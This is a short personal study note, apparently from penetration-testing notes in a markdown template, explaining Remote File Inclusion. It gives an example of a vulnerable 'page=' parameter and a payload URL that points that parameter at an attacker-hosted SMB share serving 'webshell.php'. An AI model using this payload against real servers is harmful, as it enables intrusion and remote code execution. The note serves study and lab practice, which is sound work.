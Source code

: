 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[RFI]]  
___

## Description:  

Remote File Inclusion

Typically has a url like this
 
http://10.10.110.213/lang.php?page=
 
Point the page to your remote webpage hosted with http or smb (make sure to setup your smb server)
 
http://10.10.110.213/lang.php?page=\\10.10.14.23\public\webshell.php


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (03:14 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
